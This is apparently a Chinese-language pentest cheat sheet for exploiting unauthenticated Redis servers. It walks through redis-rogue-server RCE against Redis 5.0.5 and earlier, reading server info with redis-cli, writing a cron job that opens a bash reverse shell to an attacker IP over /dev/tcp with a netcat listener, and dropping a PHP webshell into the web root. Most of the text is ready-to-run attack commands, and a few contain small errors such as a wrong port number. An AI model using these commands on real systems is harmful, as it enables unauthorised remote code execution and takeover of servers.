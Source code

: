 # redis-rogue-server rce

当 `redis` 可以远程访问并且Redis <= 5.0.5

1. 访问:0679端口。 查看是否可以远程访问

2. `redis-rogue-server.py -h`

 find / -name *redis* 找找绝对路径

3. 使用

```
python3 redis-rogue-server.py --rhost 127.0.0.1 --lhost 127.0.0.1
                                远程主机            本地主机


# 开启监听
# nc相应端口
 nc -lvvp 9999

```
Redis未授权访问验证、获取敏感信息

　　Nmap扫描后发现主机的6379端口对外开放，就可以用本地Redis远程连接服务器（redis在开放往外网的情况下，默认配置下是空口令，端口为6379）连接后可以获取Redis敏感数据。

这里我使用另一台安装了redis的centos远程连接测试

```bash
./redis-cli   -h   192.168.242.134.

redis 192.168.242.134:6379> info # 查看敏感信息

```

### 利用crontab反弹shell

>>直接向靶机的Crontab写入任务计划，反弹shell回来
```
redis 192.168.242.134:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.242.131/888 0>&1\n"
redis 192.168.242.134:6379> config set dir /var/spool/cron/
redis 192.168.242.134:6379> config set dbfilename root
redis 192.168.242.134:6379> save
```

set x "\n* * * * * bash -i >& /dev/tcp/192.168.12.47/2345 0>&1\n"

然后在攻击机（192.168.242.131）上启动 nc 监听 888端口，等待反弹shell。这过程需要一些时间。
```
nc -lvnp 888
```

### 写入webshell

当自己的redis权限不高时，可以向web里写入webshell，但需要对方有web服务且有写入权限。假设靶机里面存在WEB服务并且目录在 /var/www/html
```
redis 192.168.242.134:6379>config set dir /var/www/html

redis 192.168.242.134:6379>config set x "<?php phpinfo();?>"

redis 192.168.242.134:6379>config set dbfilename webshell.php

redis 192.168.242.134:6379>save
```